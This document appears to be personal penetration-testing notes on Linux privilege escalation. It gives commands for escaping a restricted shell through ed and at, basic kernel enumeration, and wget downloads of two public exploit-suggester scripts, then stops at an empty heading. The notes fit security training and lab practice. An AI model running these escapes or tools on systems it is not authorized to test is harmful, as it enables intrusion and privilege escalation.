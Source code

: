 ### Escape Restricted Shell (using text editor)

```bash
$ ed
!/bin/sh
$ export PATH=/bin:/usr/bin
```

### Escape Restricted Environment (using at)

[https://gtfobins.github.io/gtfobins/at/#shell](https://gtfobins.github.io/gtfobins/at/#shell)

```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

### Kernel Enum

```bash
cat /etc/issue
```

```bash
uname -a
```

Need to download if cross architecture.

```bash
apt install gcc-multilib -y
```

<aside>
💡 For exploit suggester 1: look at Exposure: highly probable

</aside>

[https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
```

<aside>
💡 For exploit suggester 2: use if exploit suggester 1 don’t work

</aside>

[https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl](https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl)

```bash
wget https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl
```

### GCC Error Fixes
